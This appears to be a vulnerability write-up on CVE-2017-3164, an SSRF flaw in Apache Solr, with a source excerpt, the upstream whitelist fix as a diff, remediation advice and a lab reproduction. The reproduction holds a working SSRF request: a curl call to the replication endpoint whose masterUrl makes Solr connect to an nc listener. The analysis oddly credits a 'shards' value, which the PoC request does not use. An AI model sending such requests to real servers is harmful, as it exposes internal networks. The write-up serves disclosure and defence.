



# CVE-2017-3164 CWE-918 Solr SSRF

## Vulnerability Background
**Solr :** A high-performance, scalable open-source enterprise-grade search engine platform built on Apache Lucene. It uses inverted index technology, enabling fast and efficient full-text retrievals of massive data, supporting import and indexing of various data formats (such as JSON, XML, etc.). Solr offers powerful query functions, including full-text search, filtered queries, sorting, grouping, and more, flexibly meeting different search needs. It also features distributed search and index replication functions, enabling high availability and load balancing, widely used in e-commerce search, content management, data analysis, and many other fields, helping enterprises enhance search experience and data processing capabilities.

## Vulnerability Mechanism
Apache Solr failed to properly validate `shards` parameters, allowing attackers to construct `shards` parameters containing malicious URLs to force Solr servers to initiate HTTP requests to arbitrary targets (including internal networks or attacker-controlled servers), thereby triggering server-side request forgery (SSRF) attacks.

## Vulnerability Location
Analyzing the Solr 6.0.0 source code:

In the solr/solr/core/src/java/org/apache/solr/handler/component/HttpShardHandler.java file, the `shards` parameter in line 307 of the prepDistributed function can contain any URL or IP address, meaning attackers can be lured by constructing specific requests Solr servers access malicious URLs (including internal networks or servers controlled by external attackers).

```java
 for (int i=0; i<rb.shards.length; i++) {
        if (rb.shards[i] == null) {
          if (clusterState == null) {
            clusterState =  zkController.getClusterState();
            slices = clusterState.getSlicesMap(cloudDescriptor.getCollectionName());
          }
          String sliceName = rb.slices[i];

          Slice slice = slices.get(sliceName);

          if (slice==null) {
            // Treat this the same as "all servers down" for a slice, and let things continue
            // if partial results are acceptable
            rb.shards[i] = "";
            continue;
            // throw new SolrException(SolrException.ErrorCode.BAD_REQUEST, "no such shard: " + sliceName);
          }

          Map<String, Replica> sliceShards = slice.getReplicasMap();

          // For now, recreate the | delimited list of equivalent servers
          StringBuilder sliceShardsStr = new StringBuilder();
          boolean first = true;
          for (Replica replica : sliceShards.values()) {
            if (!clusterState.liveNodesContain(replica.getNodeName())
                || replica.getState() != Replica.State.ACTIVE) {
              continue;
            }
            if (first) {
              first = false;
            } else {
              sliceShardsStr.append('|');
            }
            String url = ZkCoreNodeProps.getCoreUrl(replica);
            sliceShardsStr.append(url);
          }

          if (sliceShardsStr.length() == 0) {
            boolean tolerant = rb.req.getParams().getBool(ShardParams.SHARDS_TOLERANT, false);
            if (!tolerant) {
              // stop the check when there are no replicas available for a shard
              throw new SolrException(SolrException.ErrorCode.SERVICE_UNAVAILABLE,
                  "no servers hosting shard: " + rb.slices[i]);
            }
          }

          rb.shards[i] = sliceShardsStr.toString();
        }
 }
```

## Remediation

Upgrade to Solr 6.6.6, 7.7.0, or a later maintained release. For older installations, restrict Solr to trusted networks and configure the shard-host whitelist introduced by the fix; do not expose query endpoints that accept attacker-controlled `shards` values.

`HttpShardHandlerFactory` adds a `WhitelistHostChecker` responsible for verifying that every host URL in the **shards parameter** is permitted.

```diff
diff --git a/solr/core/src/java/org/apache/solr/handler/component/HttpShardHandler.java b/solr/core/src/java/org/apache/solr/handler/component/HttpShardHandler.java
index 1bfa6e9ab1f..03a08ce339f 100644
--- a/solr/core/src/java/org/apache/solr/handler/component/HttpShardHandler.java
+++ b/solr/core/src/java/org/apache/solr/handler/component/HttpShardHandler.java
@@ -20,6 +20,7 @@
 import java.lang.invoke.MethodHandles;
 import java.net.ConnectException;
 import java.util.ArrayList;
+import java.util.Arrays;
 import java.util.Collection;
 import java.util.HashMap;
 import java.util.HashSet;
@@ -32,7 +33,6 @@
 import java.util.concurrent.Future;
 import java.util.concurrent.TimeUnit;
 import java.util.function.Predicate;
-
 import org.apache.solr.client.solrj.SolrRequest;
 import org.apache.solr.client.solrj.SolrResponse;
 import org.apache.solr.client.solrj.SolrServerException;
@@ -43,6 +43,7 @@
 import org.apache.solr.cloud.CloudDescriptor;
 import org.apache.solr.cloud.ZkController;
 import org.apache.solr.common.SolrException;
+import org.apache.solr.common.SolrException.ErrorCode;
 import org.apache.solr.common.cloud.ClusterState;
 import org.apache.solr.common.cloud.DocCollection;
 import org.apache.solr.common.cloud.Replica;
@@ -89,7 +90,6 @@ public HttpShardHandler(HttpShardHandlerFactory httpShardHandlerFactory, Http2So
     // This is primarily to keep track of what order we should use to query the replicas of a shard
     // so that we use the same replica for all phases of a distributed request.
     shardToURLs = new HashMap<>();
-
   }
 
 
@@ -355,6 +355,13 @@ public void prepDistributed(ResponseBuilder rb) {
       rb.shards = new String[rb.slices.length];
     }
 
+    HttpShardHandlerFactory.WhitelistHostChecker hostChecker = httpShardHandlerFactory.getWhitelistHostChecker();
+    if (shards != null && zkController == null && hostChecker.isWhitelistHostCheckingEnabled() && !hostChecker.hasExplicitWhitelist()) {
+      throw new SolrException(ErrorCode.FORBIDDEN, "HttpShardHandlerFactory "+HttpShardHandlerFactory.INIT_SHARDS_WHITELIST
+          +" not configured but required (in lieu of ZkController and ClusterState) when using the '"+ShardParams.SHARDS+"' parameter."
+          +HttpShardHandlerFactory.SET_SOLR_DISABLE_SHARDS_WHITELIST_CLUE);
+    }
+
     //
     // Map slices to shards
     //
@@ -378,21 +385,32 @@ public void prepDistributed(ResponseBuilder rb) {
         if (shortCircuit) {
           rb.isDistrib = false;
           rb.shortCircuitedURL = ZkCoreNodeProps.getCoreUrl(zkController.getBaseUrl(), coreDescriptor.getName());
+          if (hostChecker.isWhitelistHostCheckingEnabled() && hostChecker.hasExplicitWhitelist()) {
+            /*
+             * We only need to check the host whitelist if there is an explicit whitelist (other than all the live nodes)
+             * when the "shards" indicate cluster state elements only
+             */
+            hostChecker.checkWhitelist(clusterState, shards, Arrays.asList(rb.shortCircuitedURL));
+          }
           return;
         }
         // We shouldn't need to do anything to handle "shard.rows" since it was previously meant to be an optimization?
       }
+      
+      if (clusterState == null && zkController != null) {
+        clusterState =  zkController.getClusterState();
+      }
 
 
       for (int i=0; i<rb.shards.length; i++) {
         if (rb.shards[i] != null) {
           final List<String> shardUrls = StrUtils.splitSmart(rb.shards[i], "|", true);
           replicaListTransformer.transform(shardUrls);
+          hostChecker.checkWhitelist(clusterState, shards, shardUrls);
           // And now recreate the | delimited list of equivalent servers
           rb.shards[i] = createSliceShardsStr(shardUrls);
         } else {
-          if (clusterState == null) {
-            clusterState =  zkController.getClusterState();
+          if (slices == null) {
             slices = clusterState.getCollection(cloudDescriptor.getCollectionName()).getSlicesMap();
           }
           String sliceName = rb.slices[i];
@@ -433,6 +451,14 @@ public boolean test(Replica replica) {
 
           final List<String> shardUrls = transformReplicasToShardUrls(replicaListTransformer, eligibleSliceReplicas);
 
+          if (hostChecker.isWhitelistHostCheckingEnabled() && hostChecker.hasExplicitWhitelist()) {
+            /*
+             * We only need to check the host whitelist if there is an explicit whitelist (other than all the live nodes)
+             * when the "shards" indicate cluster state elements only
+             */
+            hostChecker.checkWhitelist(clusterState, shards, shardUrls);
+          }
+
           // And now recreate the | delimited list of equivalent servers
           final String sliceShardsStr = createSliceShardsStr(shardUrls);
           if (sliceShardsStr.isEmpty()) {
@@ -446,6 +472,11 @@ public boolean test(Replica replica) {
           rb.shards[i] = sliceShardsStr;
         }
       }
+    } else {
+      if (shards != null) {
+        // No cloud, verbatim check of shards
+        hostChecker.checkWhitelist(shards, new ArrayList<>(Arrays.asList(shards.split("[,|]"))));
+      }
     }
     String shards_rows = params.get(ShardParams.SHARDS_ROWS);
     if(shards_rows != null) {
```

## Affected Versions

- Apache Solr 1.3.0 through 1.4.1
- Apache Solr 3.1.0 through 3.6.2
- Apache Solr 4.0.0 through 4.10.4
- Apache Solr 5.0.0 through 5.5.5
- Apache Solr 6.0.0 through 6.6.5
- Apache Solr 7.0.0 through 7.6.0

## Environment Setup
Start the Docker environment, Solr version 6.0.0, with a kernel named collection1

```txt
NIST:NVD   Base Score:7.5 HIGH  Vector:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

```txt
cpe:2.3:a:apache:solr:6.0.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Use the nc command to listen on port 8889

```bash
   nc -lvp 8889
   ```

2. Use the curl command to send a GET request packet to the replication API, redirecting Solr's request to the server (Docker loopback address `172.17.0.1:8889`)

```bash
   curl --path-as-is -i -s -k -X $'GET' \
       -H $'Host: 127.0.0.1:8983' -H $'Content-Length: 2' \
       --data-binary $'\x0d\x0a' \
       $'http://127.0.0.1:8983/solr/collection1/replication?command=fetchindex&masterUrl=http://172.17.0.1:8889&wt=json&httpBasicAuthUser=aaa&httpBasicAuthPassword=bbb'
   ```



3. You can see that the 8889 port you are listening for has successfully received the request



## PoC Analysis
The crafted `shards` value points to the listener controlled by the tester. Receipt of an HTTP connection by `nc` proves that Solr dereferenced the attacker-supplied URL from the server side. Access to other internal services depends on network reachability and the protocol spoken by the target.
## References
[NVD - CVE-2017-3164](https://nvd.nist.gov/vuln/detail/CVE-2017-3164)

[[SOLR-12770\] [CVE-2017-3164] Make it possible to configure a shards whitelist for master/slave - ASF JIRA](https://issues.apache.org/jira/browse/SOLR-12770)

https://github.com/apache/solr/commit/8b54b20fc488ae3e83f4a350a707dc0303ade230

A Brief Analysis of the [Apache Solr Replication Handler Vulnerability (CVE-2017-3163&&CVE-2017-3164) - Prophet Community](https://xz.aliyun.com/news/7969)
